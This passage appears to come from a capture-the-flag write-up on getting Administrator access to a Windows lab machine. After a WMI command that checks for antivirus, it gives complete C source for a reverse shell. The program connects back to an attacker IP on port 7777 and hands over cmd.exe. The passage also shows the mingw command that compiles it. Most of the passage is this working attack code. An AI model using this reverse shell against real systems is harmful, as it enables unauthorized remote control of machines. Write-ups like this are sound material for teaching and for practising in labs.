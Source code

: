 This results in _another_ connection but it drops immediately!? Maybe this is antivirus? That would be weird because the original payload for HFS worked without any issues... Try checking for one:

```bash
wmic /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List
```

This returns `Invalid namespace`, meaning that there is no AV installed... Maybe just try a custom payload? Save the following on Kali as `bubba.c`:

```c
#define WIN32_LEAN_AND_MEAN

#include <windows.h>
#include <winsock2.h>

#pragma comment(lib, "ws2_32.lib")

#define TARGET_IP   "10.10.14.25"
#define TARGET_PORT 7777

void main(void) {
  SOCKET s;
  WSADATA wsa;
  STARTUPINFO si;
  struct sockaddr_in sa;
  PROCESS_INFORMATION pi;

  WSAStartup(MAKEWORD(2,2), &wsa);
  s = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
  sa.sin_family = AF_INET;
  sa.sin_addr.s_addr = inet_addr(TARGET_IP);
  sa.sin_port = htons(TARGET_PORT);
  WSAConnect(s, (struct sockaddr *)&sa, sizeof(sa), NULL, NULL, NULL, NULL);
  SecureZeroMemory(&si, sizeof(si));
  si.cb = sizeof(si);
  si.dwFlags = STARTF_USESTDHANDLES;
  si.hStdInput = (HANDLE)s;
  si.hStdOutput = (HANDLE)s;
  si.hStdError = (HANDLE)s;
  CreateProcessA(NULL, "c:\\windows\\system32\\cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);
}
```

Then compile and transfer it to the target as before and execute it:

```bash
i686-w64-mingw32-gcc bubba.c -o bubba.root.exe -s -lws2_32
```

And this results in a valid shell as `Adminsitrator`:
